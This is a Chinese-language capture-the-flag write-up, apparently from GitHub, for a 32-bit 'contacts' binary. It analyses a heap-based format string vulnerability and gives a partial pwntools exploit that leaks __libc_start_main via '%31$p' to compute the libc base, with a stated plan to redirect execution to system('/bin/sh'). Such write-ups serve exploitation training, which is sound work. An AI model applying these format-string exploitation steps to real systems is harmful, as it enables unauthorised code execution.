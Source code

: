 ###### contacts

分析-解题

* ![checksec.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbwk93g3j30fh04fmxd.jpg)

  32位程序，开了栈溢出保护，栈不可执行。

* `ida`分析主要发现了问题函数

  ![问题函数.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbx8ucgtj310m0ecjsc.jpg)

  ![问题所在.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbxl5k6qj30pf06njrr.jpg)

  通过运行程序知道这个`format`是在堆上的。并不像之前的题目都是在栈上的。然后进行`gdb`调试看看参数位置。

  ![ebp-main-format.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbya6cj8j30rg0ic76u.jpg)

  **从这个地方可以看出`ebp`在位于07行，偏移为7，而输入的description，位于0xc，偏移12，而`__libc_start_main`,位于0x20。偏移为32。**

  ![字符串到ebp的位置.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbzahnn7j30k7013a9w.jpg)

  我们又能看到字符串与`epb`的位置相差0x14。

* 主要思路还是先通过运行一次程序把`libc_start_main`的地址泄露出来，然后利用`libc`来找到`system函数和‘/bin/sh’字符串`。然后再进行一次泄露把`ebp`和`heap`的地址泄露出来。再修改`heap`地址为`system`，最后实现

exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context(log_level = "debug",arch = "i386",os = "linux")

io = process("./contacts")
elf = ELF("./contacts")
libc = elf.libc

def func_1(io,name,phone,len_des,description):
	r = io
	r.recvuntil('>>> ')
	r.sendline('1')
	r.recvuntil('Contact info: \n')
	r.recvuntil('Name: ')
	r.sendline(name)
	r.recvuntil('You have 10 numbers\n')
	r.sendline(phone)
	r.recvuntil('Length of description: ')
	r.sendline(len_des)
	r.recvuntil('description:\n\t\t')
	r.sendline(description)

def func_4(io):
	r = io
	r.recvuntil(">>>")
	r.sendline("4")
	r.recvuntil("Description: ")

#gdb.attach(io)
func_1(io,'aaaa','1234','1234','%31$paaaa')
func_4(io)
libc_start_main = int(io.recvuntil('aaaa', drop=True), 16)-241
print "libc_start_main addr :" + hex(libc_start_main)

libc_base = libc_start_main - libc.sym['__libc_start_main']
```